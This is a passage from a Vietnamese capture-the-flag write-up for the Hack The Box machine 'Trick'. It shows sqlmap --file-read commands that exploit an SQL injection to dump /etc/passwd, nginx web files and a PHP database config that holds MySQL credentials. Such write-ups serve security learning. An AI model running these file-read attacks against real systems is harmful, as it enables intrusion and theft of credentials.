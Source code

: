 → Ngon, ta hoàn toàn có quyền đọc file.

Sau khi nhìn nhanh file /etc/passwd. Phát hiện có  một user tên  `michael`.  

```console
kali@kali:~/…/share/sqlmap/output/preprod-payroll.trick.htb$ cat files/_etc_passwd 
root:x:0:0:root:/root:/bin/bash
<--SNIP-->
michael:x:1001:1001::/home/michael:/bin/bash
```

Vậy ngoài đọc file /etc/passwd, mình có thể làm được gì nữa ta?

→ Đọc source code của chương trình, file config của server. 

	→ Nhưng để đọc được thì cần phải biết file này nằm ở đâu.

Mình đã sử dụng curl để xem server trả về những thông tin gì, và xem thử có thông tin về loại server đang host hay không *(thông tin này tạm tin thôi 🐧)*

```console
kali@kali:~$ curl -I http://trick.htb/                            
HTTP/1.1 200 OK
Server: nginx/1.14.2
<--SNIP-->

kali@kali:~$ curl -I http://preprod-payroll.trick.htb/
HTTP/1.1 302 Found
Server: nginx/1.14.2
<--SNIP-->
```

→ Có vẻ như là `taret` sử dụng `nginx` để host.
+ Default root directory của `nginx` là `/var/www/html/`.
+ Default directory chứa file cấu hình của `nginx` là `/etc/nginx/`.

Nhưng ở đây cùng 1 server lại có nhiều hơn 1 trang web đang được host → có nhiều root directories tương ứng cho từng web → suy đoán: 
+ `/var/www/html` là của trang `trick.htb`
+ `/var/www/payroll `là của trang `preprod-payroll.trick.htb`

**Kiểm tra:** 

```console
kali@kali:~/machines.HTB/Trick/exploit$ sqlmap -r trick.req --file-read '/var/www/html/index.html' --batch --threads 10

kali@kali:~/machines.HTB/Trick/exploit$ sqlmap -r trick.req --file-read '/var/www/payroll/index.php' --batch --threads 10
```

→ Có kết quả trả về → ✔️ suy đoán đúng

Tìm kiếm thêm được file `db_connector.php` ở trong `/var/www/payroll` có chứa username, password của mysql.

```php
<?php 

$conn= new mysqli('localhost','remo','TrulyImpossiblePasswordLmao123','payroll_db')or die("Could not connect to mysql".mysqli_error($con));
```
